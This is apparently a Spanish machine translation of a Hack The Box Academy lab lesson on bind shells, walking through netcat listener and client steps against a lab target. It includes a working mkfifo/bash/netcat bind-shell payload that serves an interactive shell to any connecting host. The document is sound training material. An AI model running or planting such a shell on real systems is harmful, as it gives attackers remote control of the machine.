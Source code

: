# Atar conchas

En muchos casos, trabajaremos para establecer un shell en un sistema en una red local o remota. Esto significa que buscaremos usar la aplicación del emulador terminal en nuestro cuadro de ataque local para controlar el sistema remoto a través de su carcasa. Esto se hace típicamente usando un`Bind`&/o`Reverse`caparazón.

---

# **¿Qué es?**

Con un caparazón, el`target`El sistema ha comenzado un oyente y espera una conexión del sistema de Pentester (caja de ataque).

### **Ejemplo de enlace**

![](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

Como se ve en la imagen, nos conectaríamos directamente con el`IP address`y`port`escuchando en el objetivo. Puede haber muchos desafíos asociados con obtener un caparazón de esta manera. Aquí hay algunos a considerar:

- Tendría que haber un oyente ya comenzó en el objetivo.
- Si no se inicia un oyente, tendríamos que encontrar una manera de hacer que esto suceda.
- Los administradores generalmente configuran reglas estrictas de firewall entrantes y NAT (con implementación de PAT) en el borde de la red (orientado público), por lo que ya tendríamos que estar en la red interna.
- Los firewalls del sistema operativo (en Windows y Linux) probablemente bloquearán la mayoría de las conexiones entrantes que no están asociadas con aplicaciones confiables basadas en la red.

Los firewalls del sistema operativo pueden ser problemáticos al establecer un shell, ya que necesitamos considerar las direcciones IP, los puertos y la herramienta en uso para que nuestra conexión funcione correctamente. En el ejemplo anterior, se llama a la aplicación utilizada para iniciar el oyente[Gnu netcat](https://en.wikipedia.org/wiki/Netcat). `Netcat` (`nc`) se considera nuestro`Swiss-Army Knife`Dado que puede funcionar a través de enchufes TCP, UDP y UNIX. Es capaz de usar IPv4 e IPv6, abrir y escuchar en sockets, funcionar como un proxy e incluso tratar con la entrada y salida de texto. Usaríamos NC en el cuadro de ataque como nuestro`client`, y el objetivo sería el`server`.

Obtengamos una comprensión más profunda de esto practicando con NetCat y estableciendo una conexión de Shell Bind con un host en la misma red sin restricciones.

---

# **Practicando con GNU Netcat**

Primero, necesitamos generar nuestro cuadro de ataque o Pwnbox y conectarnos al entorno de la red de la Academia. Luego asegúrese de que nuestro objetivo se inicie. En este escenario, interactuaremos con un sistema Ubuntu Linux para comprender la naturaleza de un caparazón. Para hacer esto, usaremos`netcat` (`nc`) en el cliente y el servidor.

Una vez conectado al cuadro de destino con SSH, inicie un oyente de NetCat:

### **No. 1: Servidor - Oyeer de inicio de NetCat de destino**

Atar conchas

```
Target@server:~$ nc -lvnp 7777Listening on [0.0.0.0] (family 0, port 7777)

```

En este caso, el objetivo será nuestro servidor, y el cuadro de ataque será nuestro cliente. Una vez que presionamos Enter, el oyente se inicia y espera una conexión del cliente.

De vuelta en el cliente (cuadro de ataque), usaremos NC para conectarnos al oyente que comenzamos en el servidor.

### **No. 2: Cliente - Box de ataque que se conecta al Target**

Atar conchas

```
xnoxos@htb[/htb]$ nc -nv 10.129.41.200 7777Connection to 10.129.41.200 7777 port [tcp/*] succeeded!

```

Observe cómo estamos utilizando NC en el cliente y el servidor. En el lado del cliente, especificamos la dirección IP del servidor y el puerto en el que configuramos para escuchar (`7777`). Una vez que nos conectamos con éxito, podemos ver un`succeeded!`mensaje en el cliente como se muestra arriba y un`received!`Mensaje en el servidor, como se ve a continuación.

### **No. 3: Servidor: la conexión de recepción de objetivos del cliente**

Atar conchas

```
Target@server:~$ nc -lvnp 7777Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!

```

Sepa que este no es un caparazón adecuado. Es solo una sesión de TCP de NetCat que hemos establecido. Podemos ver su funcionalidad escribiendo un mensaje simple en el lado del cliente y viéndolo recibido en el lado del servidor.

### **No. 4: Cliente - Cuadro de ataque Enviar mensaje Hello Academy**

Atar conchas

```
xnoxos@htb[/htb]$ nc -nv 10.129.41.200 7777Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy

```

Una vez que escribamos el mensaje y presionemos Enter, notaremos que el mensaje se recibe en el lado del servidor.

### **No. 5: Servidor - Target recibe Hello Academy Mensaje**

Atar conchas

```
Victim@server:~$ nc -lvnp 7777Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy

```

Nota: Cuando en la Academia Network (10.129.xx/16) podemos trabajar con otro estudiante de la Academia para conectarse a su caja objetivo y practicar los conceptos presentados en este módulo.

---

# **Establecer un shell de enlace básico con NetCat**

Hemos demostrado que podemos usar NetCat para enviar texto entre el cliente y el servidor, pero este no es un shell de enlace porque no podemos interactuar con el sistema operativo y el sistema de archivos. Solo podemos pasar el texto dentro de la configuración de la tubería por NetCat. Usemos Netcat para servir nuestro caparazón para establecer un shell de enlace real.

En el lado del servidor, necesitaremos especificar el`directory`, `shell`, `listener`, trabaja con algunos`pipelines`, y`input` & `output` `redirection`Para garantizar que se sirva un shell al sistema cuando el cliente intente conectarse.

### **No. 1: Servidor: vinculando un shell bash a la sesión TCP**

Atar conchas

```
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

Los comandos anteriores se consideran nuestra carga útil, y entregamos esta carga útil manualmente. Notaremos que los comandos y el código en nuestras cargas útiles diferirán según el sistema operativo del host al que lo entreguemos.

De vuelta en el cliente, use NetCat para conectarse al servidor ahora que se está sirviendo un shell en el servidor.

### **No. 2: Cliente: conectarse para vincular el shell en el objetivo**

Atar conchas

```
xnoxos@htb[/htb]$ nc -nv 10.129.41.200 7777Target@server:~$
```

Notaremos que hemos establecido con éxito una sesión de shell de enlace con el objetivo. Tenga en cuenta que teníamos un control completo sobre nuestro cuadro de ataque y el sistema objetivo en este escenario, lo cual no es típico. Trabajamos a través de estos ejercicios para comprender los conceptos básicos del shell de enlace y cómo funciona sin ningún control de seguridad (enrutadores habilitados para NAT, firewalls de hardware, firewalls de aplicaciones web, IDS, IPS, firewalls de SO, protección de puntos finales, mecanismos de autenticación, etc.) en su lugar o explotaciones necesarias. Esta comprensión fundamental será útil a medida que llegamos a situaciones más desafiantes y escenarios realistas que trabajen con sistemas vulnerables.

Como se mencionó anteriormente en esta sección, también es bueno recordar que la capa de enlace es mucho más fácil de defender. Dado que la conexión se recibirá entrante, es más probable que sea detectado y bloqueado por firewalls, incluso si los puertos estándar se usan al comenzar un oyente. Hay formas de evitar esto utilizando un shell inverso que discutiremos en la siguiente sección.

Ahora, probemos nuestra comprensión de estos conceptos con algunas preguntas de desafío.